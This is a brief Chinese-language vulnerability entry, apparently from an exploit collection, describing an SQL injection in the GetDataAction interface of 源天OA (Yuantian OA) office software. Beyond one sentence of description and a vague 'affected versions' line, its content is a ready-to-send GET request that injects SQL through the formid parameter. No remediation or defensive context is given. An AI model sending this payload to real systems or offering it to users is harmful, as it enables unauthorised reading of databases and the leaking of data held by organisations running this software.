 **漏洞描述：**

源天OA GetDataAction 接口存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的数据，造成信息泄漏。

**影响版本：**

源天OA

**Payload：**

```sql
GET /ServiceAction/ServiceAction/com.velcro.base.GetDataAction?action=checkname&formid=-1%27%20OR%207063%20IN%20(SELECT%20(sys.fn_varbintohexstr(hashbytes(%27MD5%27,%271%27))))%20AND%20%27a%27=%27a

```

---
